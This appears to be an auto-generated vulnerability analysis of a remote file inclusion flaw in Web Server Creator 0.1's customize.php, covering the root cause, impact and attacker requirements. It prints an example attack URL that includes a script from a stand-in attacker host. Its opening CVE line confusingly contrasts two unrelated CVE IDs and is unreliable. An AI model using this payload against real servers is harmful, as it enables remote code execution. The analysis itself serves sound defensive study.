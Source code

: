 Based on the provided content, here's an analysis of the vulnerability:

**CVE ID:** Although the content mentions "CVE-2006-4746", it does not relate to "CVE-2002-2217".
**Root Cause of Vulnerability:** The vulnerability lies in the way the Web Server Creator version 0.1 handles the 'l' parameter in the `customize.php` file. It directly includes the value of the 'l' parameter using `include $l;` without proper sanitization or validation.
**Weaknesses/Vulnerabilities Present:**
   - **Remote File Inclusion (RFI):** The primary vulnerability is RFI. The application directly includes a file path provided by the user through the 'l' parameter.
   - **Lack of Input Sanitization:** The code does not sanitize or validate the input received through the 'l' parameter, making it vulnerable to remote file inclusion.
**Impact of Exploitation:**
    - **Arbitrary Code Execution:** A remote attacker can include a malicious PHP script from a remote server into the vulnerable application. This allows them to execute arbitrary code on the server where the Web Server Creator is running, leading to potential complete server compromise, data theft, or other malicious activities.
**Attack Vectors:**
   - **HTTP GET Request:** The attacker crafts a malicious URL, including the path to a malicious PHP file in the `l` parameter of the HTTP GET request.
   - The vulnerable URL structure is described as : `http://www.site.com/[path]/news/include/customize.php?l=http://evil_scripts?`
**Required Attacker Capabilities/Position:**
   - **Network Access:** The attacker needs network access to the vulnerable web server to send the malicious HTTP request.
   - **Knowledge of Vulnerable Path:** The attacker needs to know or discover the path to the vulnerable script (`customize.php`) within the Web Server Creator application.
   - **Malicious PHP Script Hosting:** The attacker needs to host a malicious PHP script on a publicly accessible server to be included in the vulnerable application.